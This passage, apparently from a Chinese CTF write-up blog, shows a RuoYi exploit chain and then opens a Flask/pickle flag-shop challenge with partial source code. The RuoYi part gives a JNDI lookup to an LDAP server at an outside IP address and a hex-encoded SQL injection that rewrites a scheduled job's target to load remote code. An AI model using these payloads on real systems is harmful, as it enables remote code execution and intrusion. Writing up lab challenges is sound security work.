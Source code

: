 

![image-20240907031217483](https://img-blog.csdnimg.cn/img_convert/715be647438192c8763834e452a5e393.png)

```has-numbering
javax.naming.InitialContext.lookup('ldap://124.71.147.99:1389/remoteExploit8')

```

```has-numbering
0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F3132342E37312E3134372E39393A313338392F72656D6F74654578706C6F6974382729

```

```has-numbering
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F3132342E37312E3134372E39393A313338392F72656D6F74654578706C6F6974382729 WHERE job_id = 3;')

```



![image-20240907025505515](https://img-blog.csdnimg.cn/img_convert/10c4023c6e0c9b0f4d524d9e447f055d.png)



![image-20240907031120090](https://img-blog.csdnimg.cn/img_convert/a9626a36cd17829115f5b863b4f5238b.png)



![image-20240907031134727](https://img-blog.csdnimg.cn/img_convert/8cff3e3f2f2ef7596f6f85aa93ab58e2.png)

结尾列一下若依的历史漏洞

## CNSS娘のFlag商店



![image-20240809075621948](https://img-blog.csdnimg.cn/img_convert/7e10eb36764fe8af91393c3363ab8543.png)

开题，/code路由下载源码

```prism
NAME = "Rich"
MONEY = 2000

def reset():
    global NAME, MONEY
    NAME = "Rich"
    MONEY = 2000

```

```prism
# encoding: utf-8
import os
import pickle

import buyInfo
import flask

app = flask.Flask(__name__)
flag = os.environ.get('FLAG')


class Hi():
    def __init__(self, name, money):
        self.name = name
        self.money = money
```